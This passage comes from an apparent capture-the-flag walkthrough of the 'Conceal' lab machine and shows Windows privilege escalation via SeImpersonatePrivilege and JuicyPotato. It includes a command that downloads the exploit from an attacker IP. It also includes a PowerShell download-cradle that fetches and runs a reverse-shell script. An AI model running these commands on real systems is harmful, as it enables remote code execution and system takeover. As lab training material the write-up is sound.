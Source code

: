 Checking `whoami /priv` shows I have `SeImpresonatePrivilege`:

```

PS C:\users\Destitute\appdata\local\temp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

```

That means I can use potato.

### JuicyPotato

Get the latest [JuicyPotato](https://github.com/ohpe/juicy-potato/releases) and upload it:

```

PS C:\users\Destitute\appdata\local\temp> invoke-webrequest -uri http://10.10.14.15:81/juicypotato.exe -outfile jp.exe

```

I’ll also create a `rev.bat` that runs the same command I issued to the webshell:

```

powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.15/Invoke-PowerShellTcp.ps1')

```

Now I need to get a valid CLSID. Based on the `systeminfo` I can see it’s Windows 10 Enterprise:

```

PS C:\Windows\SysWOW64\inetsrv>systeminfo

Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.15063 N/A Build 15063
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00329-00000-00003-AA343
Original Install Date:     12/10/2018, 20:04:27
System Boot Time:          13/05/2019, 06:42:20
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 05/04/2016
```